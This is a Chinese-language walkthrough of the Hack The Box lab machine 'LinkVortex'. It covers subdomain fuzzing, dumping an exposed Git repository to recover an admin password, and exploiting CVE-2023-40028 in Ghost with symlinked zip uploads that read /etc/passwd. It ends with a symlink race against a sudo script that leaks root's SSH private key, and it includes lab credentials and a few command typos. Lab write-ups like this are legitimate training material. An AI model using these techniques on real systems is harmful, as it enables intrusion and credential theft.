## Linkvortex

22/tcp

80/tcp

### 1.不寻常的操作，namp完之后加上浏览器出现的域名，再nmap一次，会出现新的信息
```
$ echo 'IP linkvortex.htb' | sudo tee -a /etc/hosts
$ nmap -sC -sV IP
```

#### robots.txt文件有四个不允许的输入页面
#### 登陆浏览器http://linkvortex.htb/ghost/

### 2.模糊枚举
#### 在/usr/share/里面没有自带的amass
```
$ sudo apt install amass -y
//在github下载仓库https://github.com/owasp-amass/amass 反倒没有找到amass里面的字典

$ ffuf -w /usr/share/amass/wordlists/bitquark_subdomains_top100K.txt -H "Host:
FUZZ.linkvortex.htb" -u http://linkvortex.htb/ -ic -fs 230
```
#### -ic 
Ignore comments，忽略字典文件里以 # 开头的注释行。
#### -fs 230
Filter by size，过滤掉响应大小 = 230 字节 的结果（说明这是默认错误页面的大小）；
这样就只会显示“和默认错误不同”的真正子域。

#### 这里的官方文档说是枚举出了子域名dev,但是上万个一模一样状态200信息的不同单词，...按 Ctrl+Shift+F 可以搜索

```
$ echo 'IP dev.linkvortex.htb' | sudo tee -a /etc/hosts
```
#### 访问浏览器的子域名：没有任何可以交互的东西，继续模糊枚举子域名
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u
http://dev.linkvortex.htb/FUZZ -ic -t 20
```

#### 暴露的Git目录！

### 3.对于Git目录
#### 使用gitdumper之类的工具将目录转储到本地机器并对其进行探索进一步
#### 将指定正确的URL，然后gitdump将把目录转储到本地机器上
```
$ pip3 install requests_pkcs12  //依赖库
$ python3.11 -m pip install --upgrade pip

$ git clone https://github.com/arthaud/git-dumper.git

$ cd git-dumper
$ python3 git-dumper.py http://dev.linkvortex.htb gitdump
```

```
$ cd gitdump && git status
```

#### 修改的特定文件是authentication.test.js
```
$ git restore --staged . && git diff //查看当前所有修改的具体差异，同时取消了暂存状态
```

#### 得到了OctopiFociPilfer45

### 4.登陆浏览器http://linkvortex.htb/ghost/
#### 将尝试使用admin@linkvortex.htb作为电子邮件，因为看到它们是主网站上许多帖子的作者
#### 查看版本信息 /setting --> Ghost

#### 版本是5.58.0，漏洞是CVE-2023-40028
```
//三个相关的网址
https://www.cve.org/CVERecord?id=CVE-2023-40028
https://github.com/0xyassine/CVE-2023-40028/tree/master
https://ghost.org/help/imports/
```
### 5.操作
#### 需要模拟/content/images/的文件路径结构的另一个线索
```
$ mkdir -p exploit/content/images/
$ ln -s /etc/passwd exploit/content/images/test-file.png  //把 /etc/passwd 链接成 test-file.png
$ zip -r -y exploit.zip exploit/
  adding: exploit/ (stored 0%)
  adding: exploit/content/ (stored 0%)
  adding: exploit/content/images/ (stored 0%)
  adding: exploit/content/images/test-file.png (stored 0%)
```
#### Open Importer  上传exploit.zip

#### 测试
```
$ curl http://linkvortex.htb/content/images/test-file.png
```

#### 在https://github.com/0xyassine/CVE-2023-40028/tree/master里面有个CVE-2023-40028.sh
```
$ gwet https://raw.githubusercontent.com/0xyassine/CVE-2023-40028/refs/heads/master/CVE-2023-40028.sh

$ vi CVE-2023-40028.sh
```
#### 修改GHOST_URL=‘http://127.0.0.1' 为‘http://linkvortex.htb'

```
$ chmod +x CVE-2023-40028.sh
$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
```


#### 获得用户bob@linvortex.htb 密码fibber-talented-worth
```
$ ssh bob@linkvortex.htb
bob@linkvortex:~$ cat user.txt

bob@linkvortex:~$ sudo -l
```



```
#!/bin/bash

QUAR_DIR="/var/quarantined" //定义隔离区目录，存放被移走的文件

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false //如果环境变量 CHECK_CONTENT 没有定义，就设为 false
fi

LINK=$1 //将第一个参数保存为 LINK

if ! [[ "$LINK" =~ \.png$ ]]; then //检查参数是否以 .png 结尾，否则提示错误并退出
  /usr/bin/echo "! First argument must be a png file !" 
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then ////用 sudo test -L 检查 $LINK 是否是符号链接
  LINK_NAME=$(/usr/bin/basename $LINK) //basename 取文件名（不带路径）
  LINK_TARGET=$(/usr/bin/readlink $LINK) //readlink 取符号链接的真实指向
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then //如果符号链接指向的路径包含 etc 或 root（粗略判断敏感位置）
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !" //输出警告并删除该链接
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine" //否则，把该链接移到隔离区
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then //如果 CHECK_CONTENT=true，就打印隔离区文件内容
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null //2>/dev/null 是避免 cat 出错时刷屏
    fi
  fi
fi
```
#### 这个脚本主要是处理传入的 PNG 文件路径。
#### 如果参数是符号链接 (symlink)，会检查它指向哪里：
#### 如果指向 /etc 或 /root 之类的敏感目录 → 删除该链接；
#### 否则 → 把它移动到隔离区 /var/quarantined，并在需要时显示内容。
#### 相当于一个简易的安全防护脚本，防止恶意软链接去读取关键文件
```
$ mkdir -p exploit2/content/images/
$ ln -s /ok exploit2/content/images/key.png
$ zip -r -y exploit2.zip exploit/
  adding: exploit2/ (stored 0%)
  adding: exploit2/content/ (stored 0%)
  adding: exploit2/content/images/ (stored 0%)
  adding: exploit2/content/images/key.png (stored 0%)
```
#### 上传zip文件

#### 检查该文件是否存在于机器上

#### 现在链接已经存在，在触发脚本之前，打开另一个终端bob和使用循环将目标链接更改为指向我们想要读取的文件。它移动到的那一刻隔离，目标链接将更改。
```
bob@linkvortex:~$ while true;do ln -sf /root/.ssh/id_rsa /var/quarantined/key.png;done
```
#### 链接将指向/root/.ssh/id_rsa获取根Ssh终端。我们想要更改链接要移动的文件，因此要将文件路径设置var/quarantined/key.png，即使没触发脚本把它转移到隔离区。
```
bob@linkvortex:~$ export CHECK_CONTENT=true; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /opt/ghost/content/images/key.png
```
#### 右先左次

#### 复制 根用户的私有id_rsa密钥 到root
```
$ vi root
```

```
$ chmod 600 root
$ ssh -i root root@linkvortex.htb
root@linkvortex:~# cat root.txt
```
